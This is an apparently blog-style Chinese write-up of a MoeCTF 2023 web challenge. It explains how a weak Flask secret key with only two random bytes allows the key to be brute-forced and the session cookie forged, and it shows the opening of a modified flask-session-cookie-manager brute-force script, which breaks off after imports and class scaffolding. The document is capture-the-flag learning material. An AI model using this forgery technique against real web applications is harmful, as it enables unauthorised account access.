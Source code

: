 ```yaml
---
title: MoeCTF 2023 Web 部分复现
date: '2023/11/18 16:05:01'
categories:
  - - ctf
description: MoeCTF 2023 Web 部分复现
tags:
abbrlink:
---
```


# MoeCTF 2023 Web 部分复现
## moeworld 

### 攻击公网服务器

打开页面是一个登录界面，创建一个账号进去之后，发现有提示
```shell
flask框架
而且session的密钥为 app.secret_key = "This-random-secretKey-you-can't-get" + os.urandom(2).hex()
```

session的密钥只有两位随机，猜测可以爆破，考虑 flask session 伪造

#### flask session 伪造
使用工具 [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)

编写 python 脚本爆破
这里是在 ```flask_session_cookie_manager3.py``` 文件的部分代码基础上，进行了修改
```python
#!/usr/bin/env python3

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast
import itertools

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
```